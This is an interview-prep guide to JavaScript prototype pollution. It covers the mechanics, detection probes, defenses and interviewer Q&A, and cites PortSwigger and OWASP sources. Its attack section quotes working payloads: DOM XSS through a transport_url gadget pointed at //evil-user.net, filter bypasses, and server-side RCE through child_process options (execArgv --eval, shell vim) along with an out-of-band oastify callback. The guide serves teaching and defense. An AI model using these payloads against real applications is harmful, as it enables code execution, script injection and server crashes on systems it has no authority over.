

# Prototype Pollution

> **Mental model:** in JavaScript every object shares a link to a prototype, and the built-in `Object.prototype` sits at the top of almost every object's chain. Property *reads* walk that chain: if an object lacks an own property, the engine looks it up on the prototype. The `__proto__` accessor (and equivalently `constructor.prototype`) exposes that shared object for writing. So if attacker input reaches a statement like `target.__proto__.x = v`, or a recursive merge that assigns the key path `__proto__.x`, the write lands on the single global `Object.prototype`, and now *every* object in the runtime inherits `x`. The pollution itself is almost always inert. It becomes an exploit only when application or library code later *reads* an inherited property it assumed was safe (a "gadget") and passes it to a dangerous sink: on the client that is usually DOM XSS, on the server it can be remote code execution via Node's `child_process`, and a careless pollution can also just crash the process (DoS). Three components are always required: a source (attacker-controlled input that writes to a prototype), a gadget (an inheritable property the app reads unsafely), and a sink (where that value does damage).

**Interview frequency:** Situational

## How it works

Property lookup and the chain. An object's own properties take precedence; if a key is missing, the engine follows `[[Prototype]]` upward until it hits `Object.prototype` (or `null`):

```javascript
const o = {};
o.toString;              // found on Object.prototype, not on o itself
Object.getPrototypeOf(o) === Object.prototype;   // true
```

`__proto__` is a getter/setter defined on `Object.prototype` that reads and writes an object's prototype. That is the crux of the vulnerability: assigning through it mutates the shared prototype rather than the object:

```javascript
const target = { existing: 'foo' };
target.__proto__.polluted = 'yes';   // writes to Object.prototype
({}).polluted;                        // 'yes'  <-- every object now inherits it
```

**Why merges pollute.** A recursive merge/clone/deep-assign walks an input object and copies key paths into a target. When the input contains a `__proto__` key with nested properties, the merge effectively runs `targetObject.__proto__.evilProperty = 'payload'`. During that assignment the engine treats `__proto__` as the getter for the prototype, so `evilProperty` is written onto `Object.prototype`, not onto `target`:

```javascript
// conceptual merge step
targetObject.__proto__.evilProperty = 'payload';
```



**JSON is special.** An object literal `{ __proto__: {...} }` uses the `__proto__` *setter* and does not create an own `__proto__` key. But `JSON.parse` treats every key as a plain string, so it produces a real own `__proto__` property, which is exactly what a subsequent unsafe merge needs:

```javascript
const lit  = {__proto__: {evilProperty: 'payload'}};
const json = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');
lit.hasOwnProperty('__proto__');    // false
json.hasOwnProperty('__proto__');   // true  <-- dangerous when merged
```

**The constructor equivalence.** Every object (unless created with a `null` prototype) has a `constructor` pointing to its constructor function, and each constructor has a `prototype` property. So `obj.constructor.prototype` is the same object as `obj.__proto__`, giving a second vector that never uses the string `__proto__`:

```javascript
({}).constructor.prototype === Object.prototype;   // true
```

**`for...in` inherits.** A `for...in` loop enumerates inherited *enumerable* properties, not just own ones. Native built-ins are non-enumerable, so they do not show up, but an attacker-injected property does. This is why polluting the prototype and then watching a server echo the object back is a reliable detection primitive:

```javascript
Object.prototype.foo = 'bar';
for (const k in {a:1}) console.log(k);   // a, foo
```

## Quick reference

```text
# Prototype pollution -> DOM XSS via an undefined library gadget (transport_url)
https://victim/?__proto__[transport_url]=data:,alert(1);//
# Merge writes transport_url onto Object.prototype; script.src later reads the inherited
# value and injects a data: URI script, executing attacker JS in the victim's origin.
```

| Invariant | Where enforced | How violated | Source |
|---|---|---|---|
| Attacker-controlled key paths (`__proto__`, `constructor.prototype`) never reach a recursive merge/clone/assign function unfiltered | Merge/deep-assign utility (or its allowlist wrapper) | A recursive merge walks a `{"__proto__":{"x":v}}` JSON body and executes the equivalent of `target.__proto__.x = v`, writing onto the shared `Object.prototype` | <sup>[[3]](#ref3)</sup> |
| Attacker-controlled maps and option bags use `Object.create(null)` or `Map`/`Set`, never a plain object with a live prototype chain | Object construction at the point untrusted keys are stored | A plain `{}` target inherits any property written onto `Object.prototype`, so a gadget like `transport_url` resolves to the attacker's value instead of `undefined` | <sup>[[5]](#ref5)</sup> |
| Every unexpected JSON key, including `__proto__` and `constructor`, is rejected by schema validation before any merge runs | Request-body schema validation (`additionalProperties: false`) | No schema allowlist exists, so a JSON body with a `__proto__` key reaches the merge step unfiltered | <sup>[[6]](#ref6)</sup> |
| A property read from an object is only trusted if it is an *own* property, not one inherited from a possibly-polluted prototype | Library/application code reading optional config (the gadget) | `config.x \|\| defaults.x` silently picks up an attacker-supplied `x` inherited from `Object.prototype`, feeding a DOM sink (`script.src`) | <sup>[[1]](#ref1)</sup> |
| Server-side pollution is probed with safe, reversible reads, never by writing to properties the runtime actually depends on | Black-box testing methodology (`for...in` reflection, status-code/JSON-spaces/charset overrides) | A destructive probe pollutes a property Node relies on, crashing the process for the whole lifetime with no page-refresh reset | <sup>[[2]](#ref2)</sup> |
| Server-side `child_process` gadgets are assessed with a higher severity ceiling than client-side DOM gadgets | Triage/impact assessment during testing | `child_process.fork()`/`execSync()` options (`execArgv`, `shell`, `NODE_OPTIONS`) left undefined by developers are inherited from the polluted prototype, escalating to RCE rather than DOM XSS | <sup>[[4]](#ref4)</sup> |

## Attack techniques

### 1. Sources: URL, JSON, and web messages

The attacker needs any input that parsed into an object and then merged/assigned. Common sources:

```text
https://victim/?__proto__[evilProperty]=payload      (query, bracket)
https://victim/?__proto__.evilProperty=payload        (query, dot notation)
https://victim/#__proto__[evilProperty]=payload       (fragment/hash)
```

```json
{ "__proto__": { "evilProperty": "payload" } }         (JSON body / postMessage)
```

Finding a working source is trial and error: bracket vs dot notation, query vs hash vs JSON. If both `__proto__` vectors are blocked, fall back to `constructor[prototype][x]`.

### 2. Detection probe

Inject a benign marker and check whether it landed on the shared prototype:

```text
https://victim/?__proto__[probe123]=x
```

```javascript
Object.prototype.probe123;   // "x" -> polluted; undefined -> no source here
```

Client-side: automate with **DOM Invader** (ships in Burp's browser) for both sources and gadgets. Server-side: the **Server-Side Prototype Pollution Scanner** Burp extension automates source discovery.

### 3. Client-side prototype pollution to DOM XSS (gadget chaining)

Libraries frequently read optional config with `config.x || defaults.x`; an undefined option becomes a gadget an attacker can supply via the prototype. PortSwigger's canonical gadget<sup>[[1]](#ref1)</sup> builds a script `src` from a `transport_url` the developer never set:

```javascript
let transport_url = config.transport_url || defaults.transport_url;
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

```text
https://victim/?__proto__[transport_url]=//evil-user.net
https://victim/?__proto__[transport_url]=data:,alert(1);//
```

The `data:` payload embeds the XSS inline; the trailing `//` comments out the hardcoded `/example.js`. To confirm a candidate gadget manually, redefine it as a logging getter and watch for a stack trace when the app reads it:

```javascript
Object.defineProperty(Object.prototype, 'transport_url', {
  get() { console.trace(); return 'polluted'; }
});
```

Gareth Heyes's PortSwigger Research also found widespread gadgets in native browser APIs (for example `fetch()` request options and `Object.defineProperty`), which can bypass weak, library-specific defenses.

### 4. `constructor.prototype` vector to defeat `__proto__` blocklists

A defense that strips only the literal string `__proto__` is bypassed by reaching the prototype through the constructor:

```text
https://victim/?constructor[prototype][evilProperty]=payload
```

### 5. Bypassing flawed key sanitization

Non-recursive stripping fails because removing the inner match reconstitutes the keyword:

```text
?__pro__proto__to__[gadget]=payload   -> strip "__proto__" once -> ?__proto__[gadget]=payload
```

Combine with the constructor vector and encoding tricks for filters that only pattern-match.

### 6. Server-side detection without a debugger (black-box, non-destructive)

From Gareth Heyes's whitepaper "Server-side prototype pollution: black-box detection without the DoS"<sup>[[2]](#ref2)</sup>. You cannot inspect a remote Node heap, and polluting real properties can crash the server for the entire process lifetime, so use safe, reversible probes:

- **Polluted property reflection.** A `for...in` serialization echoes injected keys. Send `{"__proto__":{"foo":"bar"}}` in a JSON update and look for `"foo":"bar"` reflected in the returned object.
- **Status code override.** Node's `http-errors` reads `status`/`statusCode` off the error object; pollute `status` with an obscure code in the 400 to 599 range and see if an error response adopts it.
- **JSON spaces override.** Express reads a `json spaces` option for response indentation; pollute it and watch the JSON indentation change, then reset it to prove the toggle. This is safe and reversible. Fixed in Express 4.17.4, so it also fingerprints unpatched deployments.
- **Charset override.** `body-parser`'s `getCharset()` falls back to an empty string, so polluting a `content-type` property with `charset=utf-7` causes a reflected UTF-7 string (`+AGYAbwBv-` is `foo`) to decode in the response, confirming pollution.

### 7. Server-side prototype pollution to RCE

Client-side tops out at DOM XSS; server-side can reach code execution through `child_process` gadgets whose options are left undefined by developers. First, find the request that spawns a child process by polluting a Collaborator-triggering payload:

```json
"__proto__": {
  "shell": "node",
  "NODE_OPTIONS": "--inspect=COLLAB-ID.oastify.com\"\".oastify\"\".com"
}
```

Then escalate. `child_process.fork()` accepts an `execArgv` array of Node CLI args; `--eval` runs arbitrary JS:

```json
"execArgv": [ "--eval=require('child_process').execSync('id')" ]
```

`child_process.execSync()` accepts `shell` and `input`; since `-c` under Node runs a syntax check rather than executing, use a real shell that reads from stdin. Vim/ex reliably satisfy the constraints (executed with `-c`, reads stdin, newline submits):

```json
"shell": "vim",
"input": ":! id\n"
```

### 8. Denial of service

Polluting a property the runtime or app relies on (or injecting a value of the wrong type) frequently breaks functionality or crashes Node, and because the write persists for the whole process lifetime (no page refresh to reset), a single request can take the server down.

### 9. Real library CVEs (grounding)

The foundational research is Olivier Arteau's "Prototype pollution attacks in NodeJS applications" (NorthSec 2018). Widely exploited library bugs: lodash `merge`/`mergeWith`/`defaultsDeep` (CVE-2019-10744, fixed 4.17.12; earlier CVE-2018-3721/CVE-2018-16487), jQuery `$.extend(true, {}, ...)` (CVE-2019-11358, fixed 3.4.0), and `minimist` argument parsing (CVE-2020-7598). Michal Bentkowski demonstrated prototype-pollution-to-RCE in Kibana's Timelion (CVE-2019-7609), an early proof that client-style pollution can reach server code execution.

## Defense

Ordered by robustness. The structural fixes (1 to 3) beat blocklisting.

### Real fix

1. **Use null-prototype objects for attacker-controlled key/value maps.** `Object.create(null)` produces an object with no prototype chain, so there is nothing to pollute through it and it inherits no gadgets:

   ```javascript
   const map = Object.create(null);
   Object.getPrototypeOf(map);   // null
   ```

2. **Prefer `Map`/`Set` over plain objects for options and lookups.** A `Map`'s `get()` returns only own entries, so an inherited malicious property is never read as config:

   ```javascript
   Object.prototype.evil = 'polluted';
   const opts = new Map(); opts.set('transport_url', 'https://ok');
   opts.get('evil');           // undefined
   opts.get('transport_url');  // 'https://ok'
   ```

3. **Freeze the prototype to cut off sources globally.** `Object.freeze(Object.prototype)` prevents adding or changing properties on it, so pollution writes silently fail (or throw in strict mode). `Object.seal()` is a weaker fallback that still allows value changes:

   ```javascript
   Object.freeze(Object.prototype);
   ```

4. **Schema-validate input with an allowlist of keys.** Validate JSON bodies against a strict schema (for example JSON Schema with `additionalProperties: false`) so unexpected keys like `__proto__`/`constructor` are rejected before any merge. Allowlisting expected keys is the most effective sanitization.

### Defense in depth

1. **Key sanitization as a stopgap only.** If you must blocklist, reject `__proto__`, `constructor`, and `prototype`, apply it *recursively* (to defeat `__pro__proto__to__`), and account for the constructor vector. Treat this as a temporary patch, not a real fix, because robust blocklisting is hard and repeatedly bypassed.

2. **Harden the Node runtime.** Run with `--disable-proto=delete` or `--disable-proto=throw` to remove or trap the `__proto__` accessor. Note this does not close the `constructor.prototype` vector, so it is defense-in-depth, not a complete control.

3. **Patch and pin dependencies.** Upgrade the known-vulnerable merge utilities (lodash >= 4.17.12, jQuery >= 3.4.0, minimist >= 1.2.3, Express >= 4.17.4) and keep transitive dependencies current, since new gadgets appear as libraries evolve.

## Interviewer probes

**A defense strips any key literally named `__proto__` from user input. Is that sufficient?**

Mid: No. An attacker can reach the same prototype via `constructor.prototype` instead of `__proto__`, so a filter on the literal string alone won't catch it.

Principal: No, `__proto__` and `constructor.prototype` are two doors to the same room, they both resolve to `Object.prototype`. Blocking only the string `__proto__` is defeated by reaching the same object through `constructor[prototype][x]`, which never uses the word `__proto__` at all. Any defense has to cover both paths, which is exactly why null-prototype objects and freezing `Object.prototype` are stronger than a string filter: they close the room itself rather than trying to guard every door into it.

**Does `{__proto__: {evil: true}}` written directly in JavaScript pollute the prototype?**

Mid: No, in an object literal `__proto__` is special syntax that sets the new object's prototype rather than creating an own property, so it doesn't touch `Object.prototype`.

Principal: No, and that distinction matters for finding real sources. An object literal with a `__proto__` key uses the setter, so it sets the object's prototype rather than creating an own property; `hasOwnProperty('__proto__')` returns false. `JSON.parse('{"__proto__": {...}}')` is different: `JSON.parse` treats every key as a plain string, so it produces a real own `__proto__` property. That own property is exactly what a downstream recursive merge acts on, which is why JSON request bodies are the prime source for this class, not object literals in application code.

**You've confirmed you can pollute `Object.prototype` on this target. Is that a finding by itself?**

Mid: Not really. Pollution alone doesn't do anything until some code actually reads the polluted property and uses it somewhere sensitive, so you need to show a gadget and a sink too.

Principal: On its own, it's a primitive, not an exploit. Impact requires three things: a source that writes to the prototype, a gadget, an inheritable property the app reads unsafely and treats as trusted, and a sink where that value does damage. A property defined directly on an object as its own property shadows anything polluted on the prototype, so only properties the developer left undefined are exploitable gadgets. Null-prototype objects have no inheritable gadgets at all, which is why they're a structural fix rather than a filter. Report pollution alongside a concrete gadget and sink, or explain why none was found, not as a bare confirmation.

**How do you confirm server-side pollution landed, without a debugger on the remote Node process?**

Mid: Send a payload with a `__proto__` key and see if the injected value gets reflected back anywhere in the app's response, such as in a `for...in` loop over an object.

Principal: Exploit the asymmetry in `for...in` enumeration: it walks inherited enumerable properties, and native built-ins on `Object.prototype` are non-enumerable while an attacker's assignment is enumerable by default. So a `for...in` serialization that echoes an injected key back in the response confirms pollution landed, without needing to inspect the heap. That's also why the non-destructive black-box techniques (status code override, JSON spaces override, charset override) are designed as safe, reversible probes rather than crashing real properties, a server pollution persists for the whole process lifetime with no page refresh to reset it.

**What's the actual severity ceiling difference between client-side and server-side prototype pollution?**

Mid: Client-side pollution usually only gets you DOM XSS, but server-side pollution can be worse because Node backends sometimes spawn child processes, and a polluted option passed into one can lead to remote code execution.

Principal: Client-side tops out at DOM XSS, gadget chains that build a script `src` or similar DOM sink from a polluted config value. Server-side can reach full remote code execution through `child_process` gadgets whose options (`shell`, `NODE_OPTIONS`, `execArgv`) are left undefined by developers and get inherited from the polluted prototype. That's a materially higher ceiling, and it's why server-side prototype pollution deserves a different severity rating than the client-side class even though the underlying primitive, a source writing into `Object.prototype`, is identical.

**Any reason to be careful testing for prototype pollution against a production Node server?**

Mid: Yes, polluting the wrong property could break something or crash the app, so where possible it's safer to test against a non-production environment first.

Principal: Yes. Unlike the browser, where a page refresh resets any pollution, server-side pollution persists for the entire process lifetime. Polluting a property the runtime or app actually relies on, or injecting a value of the wrong type, frequently crashes Node or breaks functionality, and a single test request can take the server down with no natural reset. That's exactly why the accepted black-box methodology favors safe, reversible probes (reflection via `for...in`, a status-code override that's easy to unset, a JSON-indentation toggle) over blindly polluting real properties to see what breaks.

## Sources

<a id="ref1"></a>[1] PortSwigger Web Security Academy, "Client-side prototype pollution". Retrieved 2026. https://portswigger.net/web-security/prototype-pollution/client-side

<a id="ref2"></a>[2] Gareth Heyes, PortSwigger Research, "Server-side prototype pollution: black-box detection without the DoS". Retrieved 2026. https://portswigger.net/research/server-side-prototype-pollution

<a id="ref3"></a>[3] PortSwigger Web Security Academy, "What is prototype pollution?". Retrieved 2026. https://portswigger.net/web-security/prototype-pollution

<a id="ref4"></a>[4] PortSwigger Web Security Academy, "Server-side prototype pollution". Retrieved 2026. https://portswigger.net/web-security/prototype-pollution/server-side

<a id="ref5"></a>[5] PortSwigger Web Security Academy, "Preventing prototype pollution". Retrieved 2026. https://portswigger.net/web-security/prototype-pollution/preventing

<a id="ref6"></a>[6] OWASP Cheat Sheet Series, "Prototype Pollution Prevention Cheat Sheet". Retrieved 2026. https://cheatsheetseries.owasp.org/cheatsheets/Prototype_Pollution_Prevention_Cheat_Sheet.html
